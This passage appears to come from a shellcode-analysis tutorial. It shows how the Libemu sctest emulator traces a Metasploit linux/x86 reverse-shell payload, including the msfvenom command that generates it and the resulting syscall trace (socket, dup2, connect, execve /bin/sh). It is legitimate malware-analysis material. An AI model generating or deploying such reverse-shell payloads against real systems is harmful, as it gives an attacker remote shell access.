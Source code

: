 
## First approach: Libemu


After installing Libemu, we will use the sctest binary. We can get the result using the binary directly:

```bash
msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1 | ./sctest -vvv -Ss 10000 -G reverseshell.dot
```

Or we can use the libemu.sh script (in scripts/ folder):

```bash
sh libemu.sh "msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1" reverseshell | tee libemu_res/libemu_res.txt
```

The result:


```cpp
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int dup2 (
     int oldfd = 14;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 14;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 14;
     int newfd = 0;
) =  0;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 47138 (port=8888);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 16777343 (host=127.0.0.1);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
int execve (
     const char * dateiname = 0x00416fa6 => 
           = "//bin/sh";
     const char * argv[] = [
           = 0x00416f9e => 
               = 0x00416fa6 => 
                   = "//bin/sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```

